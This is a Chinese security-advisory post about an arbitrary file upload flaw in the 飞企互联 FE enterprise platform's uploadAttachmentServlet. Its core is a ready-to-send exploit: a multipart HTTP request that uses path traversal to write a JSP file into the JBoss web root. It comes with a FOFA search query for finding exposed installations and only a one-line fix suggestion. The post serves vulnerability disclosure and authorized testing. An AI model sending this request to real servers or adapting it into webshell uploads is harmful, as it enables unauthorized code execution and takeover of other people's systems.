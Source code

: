 #  飞企互联-FE企业运营管理平台uploadAttachmentServlet 任意文件上传漏洞   
 TKing的安全圈   2024-03-24 15:51  
  
#### 产品简介  
  
飞企互联-FE企业运营管理平台是一个基于云计算、智能化、大数据、物联网、移动互联网等技术支撑的云工作台。这个平台可以连接人、链接端、联通内外，支持企业B2B、C2B与O2O等核心需求，为不同行业客户的互联网+转型提供支持。其特色在于提供云端工作环境，整合了人工智能、大数据分析和物联网设备管理，为不同行业客户的互联网+转型提供全面支持。通过智能化的决策支持和数据驱动的业务优化，企业可以更灵活、高效地运营业务，实现数字化转型的战略目标。  
#### 漏洞概述  
  
飞企互联-FE企业运营管理平台 uploadAttachmentServlet存在文件上传漏洞，攻击者可通过该漏洞在服务器端写入后门文件，任意执行代码，获取服务器权限，进而控制整个 web 服务器。  
#### 资产测绘  
  
app=“飞企互联-FE企业运营管理平台” ![](https://mmbiz.qpic.cn/sz_mmbiz_png/6ibvMRtaFJHSia6y2redE6YDWYYic9fqibDfgDjF7E1hIfP6cuHexOw8icpvp7pXHgCO6TsfT4nlScdZUDUwtF94RicA/640?wx_fmt=png&from=appmsg "")  
  
#### 漏洞复现  
  
Poc:  
```

```  
```
POST /servlet/uploadAttachmentServlet HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryKNt0t4vBe8cX9rZk
Content-Length: 325

------WebKitFormBoundaryKNt0t4vBe8cX9rZk
Content-Disposition: form-data; name="uploadFile"; filename="../../../../../jboss/web/fe.war/from.jsp"
Content-Type: text/plain

<% out.println("123123");%>
------WebKitFormBoundaryKNt0t4vBe8cX9rZk
Content-Disposition: form-data; name="json"

{"iq":{"query":{"UpdateType":"mail"}}}
------WebKitFormBoundaryKNt0t4vBe8cX9rZk--

```  
```
；
```  
#### 修复建议  
  
升级至最新安全版本。  
```
公众号技术文章仅供诸位网络安全工程师对自己所管辖的网站、服务器、网络进行检测或维护时参考用，公众号的检测工具仅供各大安全公司的安全测试员安全测试使用。未经允许请勿利用文章里的技术资料对任何外部计算机系统进行入侵攻击，公众号的各类工具均不得用于任何非授权形式的安全测试。公众号仅提供技术交流，不对任何成员利用技术文章或者检测工具造成任何理论上的或实际上的损失承担责任。加微信进群获取更多资源：
```  
  
  

